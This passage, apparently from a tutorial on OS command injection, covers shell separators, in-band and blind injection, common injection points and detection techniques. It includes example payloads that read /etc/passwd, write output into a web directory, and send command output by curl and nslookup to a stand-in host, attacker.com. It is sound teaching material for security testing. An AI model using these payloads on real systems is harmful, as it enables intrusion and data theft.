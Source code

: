 Windows:

- `&` — Command separator
- `&&` — AND operator
- `|` — Pipe operator
- `||` — OR operator
- Newline character

Both:

- Backticks: `command` — Command substitution (Backtick - ``)
- $() — Command substitution (preferred in modern shells)

4. Types of Command Injection

In-Band (Direct) Command Injection:

- Command output is directly visible in the application response
- Example: Injecting ; cat /etc/passwd and seeing file contents

Blind Command Injection:

- No direct output visible in response
- Requires inference techniques:
    - Time-based: Using ping or sleep to cause delays
    - Output redirection: Writing results to web-accessible files
    - Out-of-band (OOB): Using DNS lookups or HTTP requests to exfiltrate data

### 5. Common Injection Points

- User input fields: Search boxes, file uploads, configuration settings
- HTTP parameters: GET/POST parameters, cookies, headers
- File operations: Filename parameters, file processing functions
- System utilities: Ping, traceroute, nslookup tools exposed to users
- Email/notification features: Recipient addresses, message content
- Backup/restore functions: File paths, database names

### 6. Detection Techniques

Time-Based Detection:

```
& ping -c 10 127.0.0.1 &     # Unix: 10 second delay
& timeout 10 &                # Windows: 10 second delay
```

Output Redirection:

```
& whoami > /var/www/images/output.txt &
```

Out-of-Band Detection:

```
& nslookup attacker.com &
& curl http://attacker.com?data=$(whoami) &
```
